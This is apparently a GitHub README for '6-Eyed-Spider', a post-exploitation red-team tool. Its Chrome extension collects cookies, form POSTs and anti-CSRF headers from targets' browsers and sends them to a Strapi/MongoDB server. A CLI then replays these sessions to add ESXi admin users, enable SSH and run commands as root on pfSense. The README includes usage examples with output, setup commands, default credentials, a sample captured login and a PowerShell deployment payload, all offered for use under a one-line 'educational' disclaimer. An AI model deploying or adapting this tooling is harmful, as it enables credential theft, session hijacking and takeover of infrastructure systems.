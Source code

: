 # 6-Eyed-Spider - Under development 
![logo](https://github.com/M507/6-Eyed-Spider/raw/master/Examples/spider-1.png)

### Abstract
This is a post-exploitation Red-Teaming tool. It gathers data going out and coming into the browser — data like POST requests, cookies, and chosen headers like (ANTI-CSRF headers), then sends all data to Strapi. Strapi and MongoDB store the data so that 6-Eyed-Spider-CLI can use the collected data to perform specific attacks. Attacks using the users' valid cookies to execute commands, create admin users, enable unsafe functionalities, manipulate data in systems like VMware, Pfsense, and PanOS. 

The tool takes advantage of how web applications usually are designed. No matter how many authentication steps a web application uses, there will be a weak point where if you know specific tokens, you will be able to interact with the application without the need for reauthenticating. The tool uses these specific tokens to perform critical tasks as authenticated users. It also deals with Anti-CSRF protection; thus, almost every request can be passed.

The tool consists of a couple of parts:
* Dockerized MongoDB and Strapi
  * MongoDB stores the collected data.
  * Strapi receives and manages the collected data.
* Google-Chrome Extention
  * Collects the browser's data from the blue team.
* 6-Eyed-Spider-CLI
  * Runs custom made plugins which make use of the collected data.

### Disclaimer
This Red-Team tool is used for educational purposes ONLY!

## Table of contents:
 * [Abstract](#abstract)
 * [Disclaimer](#disclaimer)
* [Table of contents:](#table-of-contents)
 * [How to:](#how-to)
    * [Use 6-Eyed-Spider-CLI:](#use-6-eyed-spider-cli)
    * [Install 6-Eyed-Spider:](#install-6-eyed-spider)
    * [Run the server manually:](#run-the-server-manually)
 * [Configure the admin panel and the API address from:](#configure-the-admin-panel-and-the-api-address-from)
    * [Then with administrator privileges:](#then-with-administrator-privileges)
    * [Clients:](#clients)
 * [6-Eyed-Spider-CLI Plugins:](#6-eyed-spider-cli-plugins)
 * [Dependencies](#dependencies)
 * [Todos](#todos)

### How to:

#### Use 6-Eyed-Spider-CLI:
```sh
Welcome! Type ? to list commands
6-Eyed-Spider> ?

Documented commands (type help <topic>):
========================================
Add_ESXI_Admin           Print_all_ESXis_under_control     exit
ESXI_Enable_SSH          Print_all_pfSenses_under_control  help
Execute_pfSense_Command  Print_creds                     

6-Eyed-Spider> help Add_ESXI_Admin
Add admin user.
Usage: Add_ESXI_Admin <ESXI_IP> <USERNAME> <STRONG_PASSWORD> <Description>
Add_ESXI_Admin 192.168.1.10 BLACK_TEAM Liverpool!1!1! Description1
Add_ESXI_Admin 192.168.1.10 ADMIN Liverpool!1998 Description2

6-Eyed-Spider> help Execute_pfSense_Command
Enable SSH.
Usage: Execute_pfSense_Command <ESXI_IP> <Command>
Execute_pfSense_Command 192.168.1.10 id
Execute_pfSense_Command 192.168.1.10 whoami

6-Eyed-Spider> Execute_pfSense_Command 192.168.1.254 whoami

root 

6-Eyed-Spider> Print_all_pfSenses_under_control

https://192.168.1.254/
https://192.168.2.254/
https://192.168.3.254/
https://192.168.4.254/

6-Eyed-Spider>
```

#### Install 6-Eyed-Spider:
```sh
[M507:~]$ bash Install.sh
```
#### Run the server manually:
```sh
[M507:~]$ # Start the database
[M507:~]$ docker-compose -f docker-compose-db.yml up --build -d
[M507:~]$ # Wait 20 seconds until its states changes to healthy 
[M507:~]$ watch docker-compose -f docker-compose-db.yml ps
[M507:~]$ # Insert db.dump into the database, using this command
[M507:~]$ docker exec -i strapi-docker_db_1 sh -c 'mongorestore --archive'< RedAdmin.dmup
[M507:~]$ # Start the Strapi
[M507:~]$ docker-compose -f docker-compose-main.yml up --build -d
```
Or run Run.sh, which executes the same commands above.
```sh
[M507:~]$ bash Run.sh
```
###  Configure the admin panel and the API address from:
```sh
[M507:~]$ cat ./strapi-app/config/environments/development/server.json
{
  "host": "localhost",
  "port": 1337,
  "proxy": {
   "enabled": false
  },
  "autoReload": {
    "enabled": true
  },
  "cron": {
    "enabled": false
  },
  "admin": {
    "autoOpen": false
  }
}
```

Info ☄️  Default Admin panel: http://localhost:1337/admin
Info ⚡️ Default Server: http://localhost:1337

#### Then with administrator privileges:
Default credentials: admin:RedAdmin
* Insert all the targeted domains into: http://127.0.0.1:1337/Domains
* Insert all the targeted headers into: http://127.0.0.1:1337/Headers
* http://127.0.0.1:1337/Posts receives data from the public without any privileges.
* /Posts receives: IP (String),ID (String), Site (String), and Data (Json), Type (String). Type: either "Cookie", "Header", or "Form".
An example:
```html
{
    "IP": "192.168.1.2",
    "ID": 31231,
    "Site": "https://aavtrain.com/index.asp",
    "Data": {
        "Submit": "Submit",
        "login": "true",
        "password": "MYPASSWORD",
        "user_name": "admin"
    },
    "Type": "Cookies"
}
```

#### Clients:
```sh
Microsoft Windows [Version 10.0.17763.503]
(c) 2030 Microsoft Corporation. All rights reserved.

C:\Users\Mohad> .\New-ChromeExtension.ps1 (Powershell Payload attached). 
```


### 6-Eyed-Spider-CLI Plugins:
6-Eyed-Spider-CLI runs customized plugins that make use of the valid collected data from the API. 
+ VMware
    + Add an administrator
    + Start SSH
+ Pfsense
    + Add an administrator
    + Execute a command

### Dependencies
+ Docker-compose

### Todos

- Firefox extension configures itself based on the data on /domains /headers.
- Firefox extension sends All POST requests, cookies to /Posts as described above.
- New-FirefoxExtension.ps1
